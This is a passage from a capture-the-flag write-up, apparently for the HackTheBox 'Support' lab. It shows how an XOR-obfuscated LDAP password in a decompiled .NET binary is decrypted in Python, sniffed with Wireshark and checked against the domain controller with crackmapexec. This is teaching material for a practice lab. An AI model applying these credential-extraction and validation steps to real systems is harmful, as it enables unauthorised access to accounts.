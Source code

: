     		// Token: 0x04000005 RID: 5
    		private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
    
    		// Token: 0x04000006 RID: 6
    		private static byte[] key = Encoding.ASCII.GetBytes("armando");
    	}
    }
    

I’ll decrypt the password using a Python terminal:

    
    
    oxdf@hacky$ python
    Python 3.8.10 (default, Mar 15 2022, 12:22:08) 
    [GCC 9.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> from base64 import b64decode
    >>> from itertools import cycle
    >>> pass_b64 = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
    >>> key = b"armando"
    >>> enc = b64decode(pass_b64)
    >>> [e^k^223 for e,k in zip(enc, cycle(key))]
    [110, 118, 69, 102, 69, 75, 49, 54, 94, 49, 97, 77, 52, 36, 101, 55, 65, 99, 108, 85, 102, 56, 120, 36, 116, 82, 87, 120, 80, 87, 79, 49, 37, 108, 109, 122]
    >>> bytearray([e^k^223 for e,k in zip(enc, cycle(key))]).decode()
    'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
    

#### Dynamic

On my Linux system, I’ve got the .NET framework installed, which comes with
the `mono` binary, which can be used to run this binary as well. If I open
Wireshark and run the binary, I’ll capture the authentication in the LDAP
stream:

![image-20221214172817603](https://0xdfimages.gitlab.io/img/image-20221214172817603.png)

This can also be seen in the packet that Wireshark labels as “bindRequest”:

![image-20221214172910209](https://0xdfimages.gitlab.io/img/image-20221214172910209.png)

Interestingly, this doesn’t work on Windows. I’ll dig a bit in Beyond Root.

### Verify Creds

`crackmapexec` is a nice way to quickly show these creds work:

    
    
    oxdf@hacky$ crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
    SMB         dc.support.htb  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
    SMB         dc.support.htb  445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
    

## Shell as support
